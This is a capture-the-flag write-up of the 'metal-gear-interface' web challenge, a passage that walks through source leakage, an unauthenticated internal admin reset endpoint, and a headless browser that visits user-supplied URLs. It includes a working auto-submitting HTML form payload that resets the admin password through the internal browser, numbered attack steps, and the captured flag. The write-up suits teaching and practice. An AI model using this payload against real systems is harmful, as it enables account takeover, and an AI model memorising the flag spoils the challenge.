

# metal-gear-interface

[library.m0unt41n.ch/challenges/metal-gear-interface](https://library.m0unt41n.ch/challenges/metal-gear-interface)   

# TL;DR

This is a fully remote challenge. We get presented with an interface where we can
register, login and see some status pages. The challenge text:

> _This is Big Boss... I see you have found a way to access the Metal Gear._
> _Make sure to stop it by stealing the Nuclear codes. Spies were able to_
> _confirm that Documentation of the innerworkings of the Metal Gear are_
> _somewhere on the Controlpanel.<br>...<br>Over_

The app uses React, Webpack and couple of other things I have zero idea about &#128578;

# Analysis

## Register a user

We don't have an initial login, but there is a `Register` button - we can create
`test`/`test` user and login as such. Then, there is a simple web app, where the
only meanginful functionality seems to be setting an "avatar" - preset to a simple
image hosted on imgur.com, which we set to a
[cute monkey](https://i.imgur.com/epEBxza.png) instead.

## Inspect the source

First thing that came to mind was looking at the Firefox debug console. There were
plenty of `.ts`, `.tsx` and `.js` files floating around:


I downloaded everything that I saw in `Debugger` and `Network` consoles.

## _Download_ the source

Then, in `Webpack/Pages/documentation.tsx` I found:

```typescript
export default function Documentation() {
  const { user, mutateUser } = useUser({
    redirectTo: "/login",
  });

  const router = useRouter();

  const [now, setNow] = useState(new Date());
  useEffect(() => {
    const interval = setInterval(() => {
      setNow(new Date());
    }, 1000);
  }, []);

  const deadline = new Date("Jul 22, 2099 20:00:00");

  return (
    <Layout>
      <h1>Documentation</h1>
      {user?.isLoggedIn === true && (now.getTime() > deadline.getTime() ? // only show after 20:00
        <div className="documentation">
          <p>Just in time! Here is the current source code of the Metal Gear Interface™.</p>
          <button onClick={async function handleClick(e) {
            e.preventDefault();
            router.push("/api/documentation");
          }}>Download</button>
        </div> :
        <div>
          <Clock />
          <Countdown deadline={deadline} />
          <p>Now is not the time ⌛</p>
        </div>
      )}
    </Layout>
  );
}
```

This matches the hint:
*Documentation of the innerworkings of the Metal Gear are somewhere on the Controlpanel.*
&#128578; That `Documentation` page displays a countdown clock with `Now is not the time` message
but, from above code, it seems that we can go straight to `/api/documentation` to get it.
And sure enough - that results in `archive.zip` download!

## Getting the code to work locally

A simple `docker build -t api:latest .` did not work - or it worked, but produced
an app that threw exceptions on the console. I had to add few extra params:

```Dockerfile
ENV DATABASE_URL="file:/app/db.sqlite"
ENV SECRET_COOKIE_PASSWORD="CAFEBABECAFEBABECAFEBABECAFEBABE"
ENV ADMIN_PASSWORD="blah"
ENV FLAG="shc2024{blah}"
```

Looking at `pages/api/documentation.ts`, this could be because that ZIP archive
is created on the fly, skipping some sensitive files - plus, "dev vs prod" difference.
In any case, with these changes, the app worked just fine at port `3000`:

```bash
docker run -p 3000:3000 -it api:latest
```

## Closer look

Now that we have a source and a locally running app, we can have a closer look.

### The flag

The flag is accessible with `Show nuclear codes` functionality, when logged in as
admin (confirmed by changing the password in SQLite DB):

```typescript
async function flag(req: NextApiRequest, res: NextApiResponse) {
    const flag = process.env.FLAG;
    res.json({ flag });
}
```

### Password reset

We notice that there is an **additional** admin panel at port `8080`, not accessible
from the outside, which is a trivial POST form, allowing **reset of the admin password**.

Even better, that **works without any auth!** &#128512; (verified by exporting port `8080` outside
of the local container)

### "Nuke the avatar"

Another suspicious functionality here:

```typescript
async function nukeRoute(req: NextApiRequest, res: NextApiResponse) {
    if (req.session.user) {
        try {
            const browser = await puppeteer.launch({
                executablePath: '/usr/bin/google-chrome',
                args: ['--no-sandbox', '--disable-gpu']
            });
            const page = await browser.newPage();
            console.log("Nuking ", req.session.user.avatarUrl);
            await page.goto(req.session.user.avatarUrl, { waitUntil: 'networkidle0' });
            await page.waitForTimeout(5000); // visits the website for 5 seconds
            await browser.close();
            // (...)
```

Hang on. This is pretty much... launching a browser and going to `user.avatarUrl`! &#128512;

That makes it clear what the attack vector is: we have to get this Puppeteer
browser to reset admin's password

## Resetting admin password

So, we have control over an URL that an internal browser will go to. There are some
restrictions for it:

```javascript
function checkUrl(url: string) {
    var pattern = /^[a-zA-Z0-9\-:./]+$/; // no shenanigans!
    return isUrlHttp(url) && pattern.test(url);
}
```

... so, any bookmarklet magic is off the table. But a plain HTML page should do.

At first, I really overcomplicated this - the challenge is marked as `hard`, so
I assumed that this will be some complex XSS/CORS/CSP bypassing. I tried feeding all
kinds of Javascript, making `fetch()` requests from within, etc. etc. And all that
indeed failed because of XSS protections.

But it's proven to be much simpler:

```html
<html>
  <body>
    <form method='POST' action='http://localhost:8080/reset'>
      <input type='hidden' name='password' value='adminpass'/>
      <button type='submit' id='submit'>Reset</button>
    </form>
    <script>
      document.addEventListener('DOMContentLoaded', function () {
          document.getElementById('submit').click();
      });
    </script>    
  </body>
</html>
```

Yes, HTML forms are apparently not subject to same-site-policy &#128512;

## Full hack

1.  Put above HTML at a known public address `http://someplace.com/reset.html`
1.  Start a fresh instance of the challenge
1.  Register a `test` user and login as such
1.  Change avatar to `http://someplace.com/reset.html`
1.  Trigger `Nuke the avatar`, wait few seconds (it will return to the profile menu)
1.  Logout, Login as `admin` with password `adminpass`
1.  Click on `Show nuclear codes`

This worked inside my local environment. It was not guaranteed to work in the remote
one, as it wasn't obvious that it has external network access. But it did &#128512;


---

## `shc2023{th3_nuc13ar_c0d3s_4r3_14823_5ecec5786f6c0a6b}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
